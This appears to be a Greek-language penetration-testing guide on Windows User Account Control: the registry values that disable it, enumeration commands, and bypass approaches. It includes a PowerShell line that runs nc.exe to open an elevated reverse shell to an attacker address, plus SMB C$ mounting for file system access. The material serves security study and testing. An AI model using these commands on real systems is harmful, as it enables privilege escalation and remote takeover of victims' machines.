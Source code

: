 #### Σύνοψη

* Εάν `EnableLUA=0` ή **δεν υπάρχει**, **κανένα UAC για κανέναν**
* Εάν `EnableLua=1` και **`LocalAccountTokenFilterPolicy=1`, Κανένα UAC για κανέναν**
* Εάν `EnableLua=1` και **`LocalAccountTokenFilterPolicy=0` και `FilterAdministratorToken=0`, Κανένα UAC για RID 500 (Ενσωματωμένος Διαχειριστής)**
* Εάν `EnableLua=1` και **`LocalAccountTokenFilterPolicy=0` και `FilterAdministratorToken=1`, UAC για όλους**

Όλες αυτές οι πληροφορίες μπορούν να συγκεντρωθούν χρησιμοποιώντας το **module metasploit**: `post/windows/gather/win_privs`

Μπορείτε επίσης να ελέγξετε τις ομάδες του χρήστη σας και να λάβετε το επίπεδο ακεραιότητας:

```
net user %username%
whoami /groups | findstr Level
```

## Παράκαμψη UAC

{% hint style="info" %}
Σημείωση ότι αν έχετε γραφική πρόσβαση στο θύμα, η παράκαμψη UAC είναι απλή καθώς μπορείτε απλά να κάνετε κλικ στο "Ναι" όταν εμφανιστεί το παράθυρο UAC.
{% endhint %}

Η παράκαμψη UAC είναι απαραίτητη στην ακόλουθη κατάσταση: **το UAC είναι ενεργοποιημένο, η διαδικασία σας τρέχει σε πλαίσιο με μεσαία εμπιστοσύνη και ο χρήστης σας ανήκει στην ομάδα διαχειριστών**.

Είναι σημαντικό να αναφερθεί ότι **είναι πολύ πιο δύσκολο να παρακάμψετε το UAC αν βρίσκεται στο υψηλότερο επίπεδο ασφαλείας (Πάντα) από ό,τι αν βρίσκεται σε οποιοδήποτε άλλο επίπεδο (Προεπιλογή).**

### Απενεργοποιημένο UAC

Αν το UAC είναι ήδη απενεργοποιημένο (`ConsentPromptBehaviorAdmin` είναι **`0`**) μπορείτε να **εκτελέσετε ένα αντίστροφο κέλυφος με δικαιώματα διαχειριστή** (υψηλό επίπεδο εμπιστοσύνης) χρησιμοποιώντας κάτι σαν:

```bash
#Put your reverse shell instead of "calc.exe"
Start-Process powershell -Verb runAs "calc.exe"
Start-Process powershell -Verb runAs "C:\Windows\Temp\nc.exe -e powershell 10.10.14.7 4444"
```

#### Παράκαμψη UAC με αντιγραφή δικαιώματος

* [https://ijustwannared.team/2017/11/05/uac-bypass-with-token-duplication/](https://ijustwannared.team/2017/11/05/uac-bypass-with-token-duplication/)
* [https://www.tiraniddo.dev/2018/10/farewell-to-token-stealing-uac-bypass.html](https://www.tiraniddo.dev/2018/10/farewell-to-token-stealing-uac-bypass.html)

### **Πολύ** Βασική "παράκαμψη" UAC (πλήρης πρόσβαση στο σύστημα αρχείων)

Αν έχετε ένα κέλυφος με έναν χρήστη που βρίσκεται μέσα στην ομάδα Διαχειριστών, μπορείτε να **τοποθετήσετε το C$** κοινόχρηστο μέσω SMB (σύστημα αρχείων) τοπικά σε ένα νέο δίσκο και θα έχετε **πρόσβαση σε όλα μέσα στο σύστημα αρχείων** (ακόμα και στο φάκελο του Διαχειριστή).
